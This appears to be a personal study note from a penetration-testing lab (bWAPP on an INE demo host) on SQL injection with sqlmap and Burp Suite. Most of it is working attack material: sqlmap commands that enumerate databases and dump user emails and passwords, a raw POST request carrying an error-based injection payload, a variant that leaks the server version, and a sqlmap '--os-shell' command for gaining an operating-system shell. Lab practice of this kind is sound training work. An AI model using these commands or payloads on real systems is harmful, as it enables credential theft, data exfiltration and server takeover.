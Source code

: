 View columns in a table
```bash
sqlmap -u "http://demo.ine.local/sqli_1.php?title=asdasd&action=search" -p title --cookie='PHPSESSID=grk04j662mt6jlig7se8rn0si2; security_level=0' --dbs -D bWAPP --tables -T users --columns 
```

View values in the given columns 
```bash
sqlmap -u "http://demo.ine.local/sqli_1.php?title=asdasd&action=search" -p title --cookie='PHPSESSID=grk04j662mt6jlig7se8rn0si2; security_level=0' --dbs -D bWAPP --tables -T users --columns -C email,password --dump
```

Intuition(exelfiles -> exel sheet -> columns -> dump all values in column)
Sqldb     (Databases-> Tables -> column -> dump all values in column )

#### Standard POST/Search
Can also save POST/GET request from burpsuite to a file/create ur own req in a file
Just right click and save as req or smt

```bash
sqlmap -r req -p title
```

On burpsuite, copy paste payload given by sqlmap into title for post req.
Send to repeater. Change the hex values to usable functions and see the results.
Eg POST req with payload given on burpsuite
```script
POST /sqli_6.php HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 187
Origin: http://demo.ine.local
Connection: close
Referer: http://demo.ine.local/sqli_6.php
Cookie: PHPSESSID=grk04j662mt6jlig7se8rn0si2; security_level=0
Upgrade-Insecure-Requests: 1

title=asdads' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7171627071,(SELECT (ELT(8269=8269,1))),0x717a767071,0x78))s), 8446744073709551610, 8446744073709551610)))-- rdyH&action=search

```
Change title to see version of server
```script
title=asdads' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(version(),(SELECT (ELT(8269=8269,1))),0x717a767071,0x78))s), 8446744073709551610, 8446744073709551610)))-- rdyH&action=search
```

Gaining OS shell
```bash
sqlmap -r req -p title --os-shell
```
